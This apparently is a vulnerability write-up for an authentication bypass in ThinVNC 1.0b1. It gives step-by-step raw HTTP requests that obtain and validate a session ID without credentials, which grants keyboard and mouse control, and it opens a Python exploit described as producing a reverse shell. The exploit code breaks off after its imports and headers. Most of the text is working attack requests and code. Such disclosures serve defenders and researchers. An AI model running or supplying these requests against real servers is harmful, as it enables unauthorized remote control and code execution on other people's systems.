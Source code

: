 ## Description

ThinVNC version **1.0b1**  allows an unauthenticated user
to bypass the authentication process via
`http://thin-vnc:8080/cmd?cmd=connect` by obtaining a valid `SID`
without any kind of authentication. It is possible to achieve
code execution on the server by sending keyboard or mouse
events to the server.

## Proof of Concept

1. Send the following request to the application in order to obtain a valid `SID`.

    ```http
    GET /cmd?cmd=connect&destAddr=poc&id=0 HTTP/1.1
    Host: 172.16.28.140:8081
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
    Accept-Language: en-US,en;q=0.5
    X-Requested-With: XMLHttpRequest
    Referer: http://172.16.28.140:8081/
    Cookie: SID=
    ```

2. Obtain the `SID` from the server response and add it to
   the following request in order to validate the `SID`

    ```http
    GET /cmd?cmd=start&mouseControl=true&kbdControl=true&quality=85&pixelFormat=0&monitor=0&id=[SID] HTTP/1.1
    Host: 172.16.28.140:8081
    Connection: close
    Accept-Encoding: gzip, deflate
    Accept: */*
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0
    Accept-Language: en-US,en;q=0.5
    X-Requested-With: XMLHttpRequest
    Referer: http://172.16.28.140:8081/
    Cookie: SID=[SID]
    ```

3. Now it is possible to send keystrokes or mouse
   moves to the server using the validated `SID`

## Exploit

The following exploit can be used to obtain a reverse shell
on the server running the ThinVNC application.

```python
import requests
import time
import argparse


proxies = {'http':'http://127.0.0.1:8080','https':'https://127.0.0.1:8080'}

headers = {
    "User-Agent": "Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:98.0) Gecko/20100101 Firefox/98.0",
    "Accept": "*/*",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "X-Requested-With": "XMLHttpRequest",
```